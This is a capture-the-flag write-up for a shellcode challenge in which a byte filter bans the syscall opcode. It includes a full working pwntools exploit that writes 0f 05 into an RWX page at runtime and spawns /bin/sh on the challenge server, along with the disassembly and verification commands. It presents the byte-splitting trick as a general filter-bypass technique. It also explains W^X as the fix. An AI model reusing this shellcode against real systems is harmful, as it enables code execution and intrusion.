


# SIGPwny CTF — ASM Modifier (No Syscall Shellcode)

A shellcode challenge where the binary filters your input for the literal bytes of the `syscall`
instruction (`0f 05`) before running it — but only checks the bytes you *send*, not the bytes your
shellcode writes to itself at runtime. The fix is self-modifying code: write the `syscall` instruction
into memory from inside the shellcode, after the filter has already finished looking.

| | |
|---|---|
| **CTF** | SIGPwny |
| **Category** | Binary Exploitation / Shellcode |
| **Difficulty** | Easy–Medium |
| **Target** | `chal.sigpwny.com:9004` |
| **Arch** | x86-64, RWX page, fixed address |

---

## 1. Challenge Prompt

> I prevent you from using syscall by checking if `\x0f\x05` is in your input.
> But you know where your shellcode is stored, can you bypass it?

The hint is the whole challenge: the filter only ever sees what you *send over the wire*. Anything your
shellcode constructs for itself, in memory, after it starts executing, was never part of that input and
is therefore invisible to a filter that already finished running.

---

## 2. Source Code

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/wait.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <sys/mman.h>

void check(char* buf);

int main() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);

    // Allocate a fixed RWX page at a hardcoded address
    char *response = (char *)mmap((void *)0x123412340000, 0x1000,
                                  PROT_READ | PROT_WRITE | PROT_EXEC,
                                  0x32, -1, 0);

    if (response != (char *)0x123412340000){
        puts("I can't allocate memory!");
    }

    char* resp = "Give me code, but no syscalling!:";
    printf("%s", resp);

    memset(response, 0, 0x1000);

    read(0, response, 0x1000);   // read our shellcode into the RWX page

    check(response);              // filter: reject if "\x0f\x05" appears anywhere

    int (*foo)() = (int(*)())response;
    foo();                        // jump into our shellcode
}

void check(char* buf){
    for (int i = 0; i < 0xfff; i++){
        if (buf[i] == 0x0f && buf[i+1] == 0x05){
            printf("NO SYSCALLS!!!1!");
            exit(-1);
        }
    }
}
```

### 2.1 `mmap` call, decoded argument by argument

```c
mmap((void *)0x123412340000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, 0x32, -1, 0);
```

| Argument | Value | Meaning |
|---|---|---|
| `addr` | `0x123412340000` | Requested mapping address — a deliberately memorable, fixed address |
| `length` | `0x1000` | One page (4096 bytes) |
| `prot` | `PROT_READ \| PROT_WRITE \| PROT_EXEC` (`0x7`) | Fully **RWX** — readable, writable, *and* executable simultaneously |
| `flags` | `0x32` | See below |
| `fd` | `-1` | No backing file |
| `offset` | `0` | N/A for anonymous mapping |

`flags = 0x32` is worth actually decoding rather than skimming past, because it's the reason the exploit
is allowed to hardcode absolute addresses at all:

```
0x32 = 0b0011_0010
     = MAP_PRIVATE   (0x02)   -- not shared with other processes
     | MAP_FIXED     (0x10)   -- place the mapping at EXACTLY `addr`, or fail; never relocate it
     | MAP_ANONYMOUS (0x20)   -- not backed by a file, zero-filled pages
```

**`MAP_FIXED` is the critical flag here.** Without it, the kernel would treat `0x123412340000` as a mere
*hint* and could map the page anywhere it likes (especially under ASLR). With `MAP_FIXED`, the mapping is
either placed at exactly that address or the call fails outright — which is why the challenge's "fixed
address" claim is actually guaranteed by the syscall flags, not just something we're hoping stays true.

### 2.2 The filter, read literally

```c
void check(char* buf){
    for (int i = 0; i < 0xfff; i++){
        if (buf[i] == 0x0f && buf[i+1] == 0x05){
            printf("NO SYSCALLS!!!1!");
            exit(-1);
        }
    }
}
```

Two properties matter enormously for the exploit, and both are visible directly in this ten-line
function:

1. **It is a single pass, called exactly once, before `foo()` is ever reached.** There is no re-check
   after execution begins, no periodic re-scan, nothing. Once `check()` returns control to `main()`
   without calling `exit()`, the filter has permanently finished its job and will never run again for the
   rest of the process's life.
2. **It only reads `buf[i]`/`buf[i+1]` — the bytes physically present in the buffer at the moment it
   runs.** It has no concept of "bytes that will be written later." A byte that doesn't exist yet when
   `check()` scans the buffer cannot possibly fail the check, no matter what value that byte eventually
   takes on.

Put those two facts together and the exploit designs itself: **send shellcode that doesn't contain
`0f 05` anywhere, but which — once running, after the filter has already returned — writes a `0f 05`
somewhere in memory and then jumps to execute it.** The filter already did its one and only job; it has
no way to object to bytes that appear after it's done looking.



---

## 3. Exploitation Strategy

Three ingredients, each one directly enabled by a fact from §2:



Concretely, the shellcode we send needs to, in order:

1. Write the NUL-terminated string `"/bin/sh"` somewhere inside the page.
2. Load the three registers `execve(3)` needs: `rax = 59` (the `__NR_execve` syscall number on x86-64),
   `rdi = &"/bin/sh"`, `rsi = NULL`, `rdx = NULL`.
3. Write the two raw bytes `0x0f`, `0x05` — the actual machine-code encoding of the `syscall`
   instruction — into some other location in the page, **as two separate single-byte writes**, so that
   at no point does the sequence `0f 05` exist contiguously inside the bytes we transmit over the wire.
4. Jump (`jmp`) to that location, so the CPU executes the two bytes we just wrote as a genuine `syscall`
   instruction, invoking `execve("/bin/sh", NULL, NULL)`.

**Why two separate single-byte writes in step 3, and not one two-byte write?** Because a single
instruction like `mov word ptr [rbx], 0x050f` would need to encode the immediate value `0x050f` directly
into *its own* machine code — and depending on byte order, that immediate's encoding could itself contain
the literal byte sequence `0f 05`, which would then exist in the shellcode we send and get caught by the
filter before we ever get to run it. Writing `0x0f` and `0x05` as two completely independent
single-byte `mov` instructions means neither individual instruction's encoding has any reason to contain
both bytes adjacent to each other — we verify this concretely in §5.

---

## 4. Picking Scratch Addresses Inside the Page

The page is 1 page (`0x1000` = 4096 bytes) starting at `0x123412340000`. We need two small scratch
regions inside it that don't overlap with the shellcode we're currently executing (which itself lives at
the start of the page, since that's where `read()` wrote it):

| Purpose | Address chosen | Offset from page base |
|---|---|---|
| `"/bin/sh\0"` string (8 bytes) | `0x123412340200` | `+0x200` |
| Hand-built `syscall` bytes (2 bytes) | `0x123412340300` | `+0x300` |

Both offsets (`0x200`, `0x300`) are comfortably past where our shellcode itself will end (our shellcode
is under 60 bytes — see §5), so writing there can't clobber instructions we haven't executed yet, and
they're far enough apart from each other that even if alignment or disassembly quirks shifted things by a
few bytes, there's no risk of the string write and the syscall-byte write colliding.

```mermaid
block-beta
  columns 1
  block:page
    shellcode["0x123412340000 — our sent shellcode (~59 bytes)"]
    gap1["... unused ..."]
    binsh["0x123412340200 — #quot;/bin/sh#92;0#quot; written here at runtime"]
    gap2["... unused ..."]
    sc["0x123412340300 — 0x0f, 0x05 written here at runtime"]
    rest["... rest of the 0x1000-byte page, unused ..."]
  end

```



---

## 5. The Exploit, Instruction by Instruction

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#
# SIGPwny CTF - ASM Modifier
# Self-modifying shellcode: write the syscall opcode bytes (0f 05) into
# memory AFTER the one-time filter check has already run, then jump to
# them, so the forbidden byte sequence never appears in the bytes we
# actually send over the wire.

from pwn import *

context.arch = 'amd64'
context.os   = 'linux'

HOST = 'chal.sigpwny.com'
PORT = 9004

# Fixed, MAP_FIXED-guaranteed address of the RWX page (see source: mmap(...))
PAGE_BASE    = 0x123412340000
BINSH_ADDR   = PAGE_BASE + 0x200   # scratch slot for "/bin/sh\0"
SYSCALL_ADDR = PAGE_BASE + 0x300   # scratch slot for the hand-written syscall bytes

shellcode = asm(f"""
    /* ---------------------------------------------------------------
       Step 1: write the 8-byte NUL-terminated string "/bin/sh" into
       the page at BINSH_ADDR.

       0x68732f6e69622f is "/bin/sh" encoded as a little-endian 7-byte
       value. A 64-bit register is 8 bytes wide, so the immediate's
       unused top byte is implicitly 0x00 -- which lands exactly on
       the 8th byte written, giving us the NUL terminator execve()
       requires for free, with no extra instruction needed.
       --------------------------------------------------------------- */
    mov rax, {BINSH_ADDR}
    mov rbx, 0x68732f6e69622f      /* "/bin/sh\\0" (NUL comes from the top zero byte) */
    mov [rax], rbx

    /* ---------------------------------------------------------------
       Step 2: load the three registers execve(2) needs.
         rax = 59           (__NR_execve on x86-64)
         rdi = &"/bin/sh"
         rsi = NULL          (argv)
         rdx = NULL          (envp)
       --------------------------------------------------------------- */
    push 59
    pop rax                         /* rax = 59; shorter encoding than `mov eax, 59` */
    mov rdi, {BINSH_ADDR}           /* rdi = pointer to "/bin/sh" */
    xor esi, esi                    /* rsi = 0  (zeroing esi also zeroes the upper 32 bits of rsi) */
    xor edx, edx                    /* rdx = 0  (same trick for rdx) */

    /* ---------------------------------------------------------------
       Step 3: hand-assemble the syscall instruction's two opcode
       bytes (0x0f, 0x05) into the page, ONE BYTE AT A TIME.

       This is the crux of the whole exploit: check() has already
       returned by the time this code runs, so these two bytes are
       never inspected by the filter. Writing them as two independent
       single-byte `mov` instructions also guarantees neither
       instruction's own machine code encoding accidentally contains
       the forbidden two-byte sequence (verified below).
       --------------------------------------------------------------- */
    mov rbx, {SYSCALL_ADDR}
    mov byte ptr [rbx], 0x0f
    mov byte ptr [rbx+1], 0x05

    /* ---------------------------------------------------------------
       Step 4: jump to the two bytes we just wrote. The CPU decodes
       them as a genuine `syscall` instruction and executes it with
       the registers we set up in step 2, i.e.:
           execve("/bin/sh", NULL, NULL)
       --------------------------------------------------------------- */
    jmp rbx
""")

# ---------------------------------------------------------------------
# Safety check: confirm the forbidden byte sequence genuinely does not
# appear anywhere in the bytes we are about to send. This is not
# optional defensive dressing -- it's the one assertion that actually
# proves the exploit's entire premise holds for THIS exact build of
# the shellcode, regardless of how the assembler happened to encode
# any individual instruction above.
# ---------------------------------------------------------------------
assert b'\x0f\x05' not in shellcode, "forbidden syscall bytes present in sent shellcode!"

log.info(f"Shellcode length: {len(shellcode)} bytes")
log.info(f"Shellcode hex: {shellcode.hex()}")

io = remote(HOST, PORT)
io.recvuntil(b':')
io.send(shellcode)
io.interactive()
```

### 5.1 Verifying the shellcode by hand (not just trusting the `assert`)

Assembling the exact same four steps with GNU `as` and disassembling the result confirms both the byte
count and, more importantly, that the two writes genuinely land as independent single-byte `mov`s with
no accidental adjacency:

```
 0: 48 b8 00 02 34 12 34 12 00 00    movabs rax, 0x123412340200
 a: 48 bb 2f 62 69 6e 2f 73 68 00    movabs rbx, 0x68732f6e69622f
14: 48 89 18                         mov    QWORD PTR [rax], rbx
17: 6a 3b                            push   0x3b                 ; 0x3b = 59
19: 58                               pop    rax
1a: 48 bf 00 02 34 12 34 12 00 00    movabs rdi, 0x123412340200
24: 31 f6                            xor    esi, esi
26: 31 d2                            xor    edx, edx
28: 48 bb 00 03 34 12 34 12 00 00    movabs rbx, 0x123412340300
32: c6 03 0f                         mov    BYTE PTR [rbx], 0xf
35: c6 43 01 05                      mov    BYTE PTR [rbx+0x1], 0x5
39: ff e3                            jmp    rbx
```

**59 bytes total.** Scanning this entire byte stream for the two-byte sequence `0f 05` finds **zero**
occurrences — the only places the individual bytes `0f` and `05` appear at all are as *separate
immediate operands* inside two different `mov` instructions (`c6 03 0f` and `c6 43 01 05`), each
surrounded by its own opcode/ModRM bytes, never adjacent to each other. This is the concrete proof behind
the strategy described in §3: splitting the write into two single-byte `mov`s, rather than one `mov
word`, keeps the two forbidden bytes structurally separated inside the transmitted shellcode.

### 5.2 A subtlety worth calling out: the free NUL terminator

`execve()` requires its first argument to be a NUL-terminated C string. The immediate
`0x68732f6e69622f` is only **7 bytes** — `/bin/sh` has exactly 7 characters — but `mov rbx, <64-bit
immediate>` always loads a full 8-byte register, and `mov [rax], rbx` always writes a full 8-byte qword.
The unused, implicit 8th byte of the 64-bit immediate is `0x00`, which is exactly what we want there.
Verifying this directly:

```python
>>> (0x68732f6e69622f).to_bytes(8, 'little')
b'/bin/sh\x00'
```

So the NUL terminator isn't an accident of the challenge being forgiving — it's a direct, guaranteed
consequence of register width, and it means we don't need a ninth byte or separate instruction to
terminate the string.

---

## 6. Full Attack Flow

```mermaid
flowchart TD
    A["Connect, recv prompt"] --> B["Assemble 59-byte self-modifying shellcode\n(contains NO 0f 05 anywhere)"]
    B --> C["assert 0f05 not in shellcode\n(local safety check)"]
    C --> D["send(shellcode)"]
    D --> E["Server: read(0, response, 0x1000)\nshellcode lands in the RWX page"]
    E --> F["Server: check(response)\nscans every byte -- finds nothing -- returns"]
    F --> G["Server: foo() -- jump into our shellcode"]
    G --> H["Shellcode: write \"/bin/sh\\0\" to +0x200"]
    H --> I["Shellcode: rax=59, rdi=&binsh, rsi=0, rdx=0"]
    I --> J["Shellcode: write byte 0x0f to +0x300\nwrite byte 0x05 to +0x300+1\n(NEVER scanned -- check() already returned)"]
    J --> K["Shellcode: jmp to +0x300"]
    K --> L["CPU executes the two freshly-written bytes\nas a genuine syscall instruction"]
    L --> M["execve(\"/bin/sh\", NULL, NULL)"]
    M --> N["Shell 🐚"]
```

---

## 7. Key Takeaways

- **A filter is only as strong as the moment it runs.** `check()` inspects a snapshot of memory at one
  specific point in time; it has no way to know about, or object to, bytes that don't exist yet. Any
  "check once, trust forever" design is vulnerable to self-modifying payloads if the memory in question
  stays writable after the check.
- **`PROT_EXEC` + `PROT_WRITE` on the same page is the real root cause**, not just the byte filter. If the
  page had been `PROT_EXEC`-only after the read (e.g. via `mprotect()` dropping `PROT_WRITE` right before
  calling `foo()`), self-modifying code would be impossible regardless of what the filter did or didn't
  check — this is exactly the real-world mitigation (W^X / DEP with no post-load re-protect-to-writable)
  that this challenge is illustrating the *absence* of.
- **`MAP_FIXED` is what makes position-independent exploitation unnecessary here.** Normally you'd need
  an information leak to find your shellcode's address; `MAP_FIXED` removes that requirement entirely by
  contractually guaranteeing the page lands at the exact address requested.
- **Splitting a forbidden multi-byte pattern across independent single-byte writes is a general filter
  -bypass technique**, not specific to `syscall`. Any "scan the input for banned byte sequence `AB`"
  filter can potentially be defeated the same way: write `A` and `B` as two separate operations, at a
  time or place the filter doesn't (or can't) re-inspect.
- **Don't trust an `assert` as an afterthought — use it as the thing that actually proves your exploit's
  core assumption.** Here, the entire strategy's correctness hinges on one empirical fact: "the bytes we
  send never contain `0f 05`." Asserting that directly on the final assembled bytes (§5) is a stronger
  guarantee than reasoning about it by eye across several instructions, especially since assemblers are
  free to choose different encodings for equivalent instructions.

---

## 8. Quiz — Test Yourself

**Q1.** The `check()` function is called exactly once, right before `foo()` executes the shellcode, and
never again afterward. Why does this single fact alone make the entire self-modifying-code bypass
possible, independent of what specific filter logic `check()` implements?

<details>
<summary>Answer</summary>

Because **a filter can only reject what it has actually observed**. `check()` takes a snapshot of the
buffer's contents at one specific moment and scans that snapshot; it has no ongoing monitoring, no
re-invocation, and no way to inspect memory writes that happen after it returns. Once `main()` proceeds
past the `check()` call without `exit()`ing, the filter's entire lifetime is over — any bytes written to
that memory region afterward (by the now-executing shellcode itself) are, by construction, bytes the
filter never got a chance to see, regardless of what pattern it was looking for. This is a general
principle: a "check-then-use" pattern is only sound if nothing can modify the checked resource in the gap
between the check and the use — here, the RWX page's writability during execution is exactly that gap.
</details>

---

**Q2.** The shellcode writes the two bytes of the `syscall` opcode (`0x0f`, `0x05`) using **two separate
single-byte `mov` instructions** instead of one `mov word ptr [addr], 0x050f`. Explain concretely why the
single-instruction version would risk failing the filter, while the exploit author's actual approach
doesn't.

<details>
<summary>Answer</summary>

A `mov word ptr [addr], 0x050f` instruction has to encode the 16-bit immediate value `0x050f` directly
inside its own machine code bytes — and on x86, 16-bit immediates are encoded **little-endian**, meaning
the immediate `0x050f` would be emitted as the literal byte sequence `0f 05` *inside the instruction
itself*. That sequence would then be physically present in the shellcode bytes sent over the wire, and
`check()` — which scans the raw input buffer — would find it and reject the payload before it ever got a
chance to execute.

Writing the two bytes via two independent single-byte `mov` instructions (`mov byte ptr [rbx], 0x0f` then
`mov byte ptr [rbx+1], 0x05`) avoids this because each instruction's own encoded immediate is just one
byte (`0f` in one instruction's bytes, `05` in a completely separate instruction's bytes, each
surrounded by that instruction's own opcode and addressing bytes) — at no point do the two forbidden
bytes sit adjacent to each other anywhere in the transmitted shellcode. The forbidden sequence only ever
comes into existence in actual memory, at runtime, after both separate writes have executed — which is
exactly the gap the filter can't see into (per Q1).
</details>

---

**Q3.** The `mmap()` call uses flag value `0x32`. Decompose this into its constituent `MAP_*` flags, and
explain which single one of them is the reason the exploit script is allowed to hardcode absolute
addresses like `0x123412340200` without first leaking anything.

<details>
<summary>Answer</summary>

`0x32` decomposes as `MAP_PRIVATE (0x02) | MAP_FIXED (0x10) | MAP_ANONYMOUS (0x20)`.

**`MAP_FIXED`** is the one that matters for address predictability: it instructs the kernel to place the
mapping at *exactly* the requested address (`0x123412340000`) or fail the call outright — unlike a normal
`mmap()` hint, which the kernel is free to relocate (especially under ASLR for a process's other
mappings). Because the mapping is contractually guaranteed to land at that exact fixed address every
single time the program runs, the exploit can safely hardcode offsets from that base (`+0x200`, `+0x300`)
without needing an information leak to discover where its shellcode landed in memory — the address is a
compile-time/design-time constant, not something that varies per-run.

(`MAP_PRIVATE` and `MAP_ANONYMOUS` matter for other reasons — not sharing the mapping with other
processes and not backing it with a file — but neither affects address predictability the way
`MAP_FIXED` does.)
</details>

---

**Q4.** Suppose the binary's source were changed to call `mprotect(response, 0x1000, PROT_READ |
PROT_EXEC)` — dropping `PROT_WRITE` — immediately before the `foo()` call, but *after* `check()` runs
successfully. Would the self-modifying-code exploit in this write-up still work? Why or why not?

<details>
<summary>Answer</summary>

**No, it would not work anymore.** The entire exploit depends on the page remaining *writable while it is
also executing* — the shellcode needs to write the `"/bin/sh"` string and the two `syscall` opcode bytes
into the page **during its own execution**, which requires `PROT_WRITE` to still be set at that point.

If `PROT_WRITE` is revoked via `mprotect()` right before `foo()` is called, the page would be
execute-only by the time our shellcode starts running: the very first `mov [rax], rbx` instruction that
tries to write `"/bin/sh"` into the page would trigger a segmentation fault (a write to a non-writable
page), and execution would crash before ever reaching the part that constructs the `syscall` instruction.

This is exactly the real-world mitigation this challenge is designed to illustrate the *absence* of: a
proper W^X (Write XOR Execute) policy ensures a memory page is never simultaneously writable and
executable, which categorically prevents self-modifying-code techniques like this one — independent of
whatever byte-level filtering logic a program also happens to apply.
</details>

---

**Q5. (Interview-style)** Generalize beyond this specific challenge: if you're asked to design a
mitigation against "self-modifying shellcode bypassing an input filter," what's the single most robust
fix, and why is it strictly better than trying to make the filter itself smarter (e.g., re-scanning
memory periodically, or scanning a wider byte window)?

<details>
<summary>Answer</summary>

**The most robust fix is to ensure no memory page is ever simultaneously writable and executable — i.e.,
enforce W^X (Write XOR Execute).** Concretely: map the shellcode buffer as `PROT_READ | PROT_WRITE` only
while reading input into it, then call `mprotect()` to switch it to `PROT_READ | PROT_EXEC` (dropping
`PROT_WRITE`) before ever transferring control into it.

This is strictly better than "smarter filtering" approaches (periodic re-scanning, scanning a wider
window, scanning on every instruction boundary, etc.) for a fundamental reason: **any filter that inspects
memory at discrete points in time is racing against code that can write new bytes between those points**,
and that race is fundamentally unwinnable by the filter — you can always construct a bypass by writing the
forbidden pattern at a moment the filter isn't looking, or across more individual writes than the filter
happens to re-check. W^X doesn't try to out-guess an attacker's timing or byte-splitting tricks at all; it
removes the *precondition* the entire attack class depends on (a page that is both writable and
executable at the same time), so the question of "when did the forbidden bytes appear" becomes
irrelevant — they can never be executed from that page no matter when or how they're written, because by
the time they could be executed, the page that holds them is no longer writable, and by the time it's
writable, it's not executable.
</details>

---

## 9. Lessons Learned (Summary)

- A byte-pattern filter checked once, before execution, protects nothing once execution has an RWX page
  to write into — the real vulnerability is the RWX page, not the absence of a smarter filter.
- Self-modifying shellcode is the standard technique whenever a specific instruction or byte sequence is
  banned from the initial payload but the target memory stays writable during execution.
- Splitting a forbidden N-byte pattern across N independent single-byte writes is a general, reusable
  filter-bypass technique, not specific to the `syscall` opcode.
- `MAP_FIXED` removing address randomization is what makes hardcoded absolute addresses safe to use here
  — always check for it explicitly rather than assuming a "fixed-looking" address will actually be fixed.
- Always verify your final assembled shellcode bytes directly (hex dump + substring search) rather than
  reasoning about forbidden sequences by eye across multiple source instructions — assemblers can choose
  different encodings than you expect.

---

## 10. Commands Reference

```bash
# Local verification of the shellcode before sending it anywhere
python3 -c "
from pwn import asm, context
context.arch = 'amd64'
sc = asm('''
    mov rax, 0x123412340200
    mov rbx, 0x68732f6e69622f
    mov [rax], rbx
    push 59
    pop rax
    mov rdi, 0x123412340200
    xor esi, esi
    xor edx, edx
    mov rbx, 0x123412340300
    mov byte ptr [rbx], 0x0f
    mov byte ptr [rbx+1], 0x05
    jmp rbx
''')
print(len(sc), 'bytes')
print(sc.hex())
assert b'\\x0f\\x05' not in sc
print('OK: forbidden sequence absent')
"

# Or hand-assemble and disassemble with GNU binutils for an independent check
as -o shell.o shell.s
objcopy -O binary shell.o shell.bin
xxd shell.bin
python3 -c "print(open('shell.bin','rb').read().find(b'\x0f\x05'))"   # expect -1

# Run the real exploit
python3 solve.py
```

---

